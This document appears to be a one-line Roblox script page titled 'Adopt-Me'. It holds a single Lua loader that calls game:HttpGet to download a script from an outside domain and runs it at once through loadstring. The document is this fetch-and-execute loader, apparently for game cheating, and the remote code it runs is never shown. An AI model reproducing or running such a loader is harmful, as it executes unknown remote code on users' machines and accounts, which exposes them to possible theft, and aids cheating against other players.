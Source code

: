 # Adopt-Me



loadstring(game:HttpGet("https://egorikusa.space/a5415147a07ded2edf0a84af.lua", true))()

